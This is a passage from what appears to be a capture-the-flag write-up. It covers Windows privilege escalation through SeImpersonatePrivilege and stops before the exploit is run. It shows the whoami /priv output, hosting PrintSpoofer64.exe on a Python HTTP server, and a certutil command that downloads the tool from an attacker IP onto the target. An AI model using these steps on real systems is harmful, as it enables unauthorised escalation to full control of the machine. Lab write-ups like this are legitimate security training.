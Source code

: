 Then i started listing the privileges of the current user and i found that our current user have the `SeImpersonatePrivilege` privilege assigned, so we can run the classic `PrintSpoffer.exe` exploit.

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Let's get the exploit in our attacker machine and host it with a python server.

```bash
❯ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
--2024-12-31 19:07:37--  https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
HTTP request sent, awaiting response... 200 OK
Length: 27136 (26K) [application/octet-stream]
Saving to: ‘PrintSpoofer64.exe.1’

PrintSpoofer64.exe.1                           100%[==================================================================================================>]  26.50K  --.-KB/s    in 0.03s   

2024-12-31 19:07:39 (829 KB/s) - ‘PrintSpoofer64.exe.1’ saved [27136/27136]

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then let's create a `C:\\Temp` folder and upload the exploit.

```bash
c:\Temp>certutil -urlcache -split -f http://10.11.116.52/PrintSpoofer64.exe
certutil -urlcache -split -f http://10.11.116.52/PrintSpoofer64.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

Once with the exploit in the target, according to the official manual of the tool, we have to run the binary with the next arguments in case we have a reverse shell.
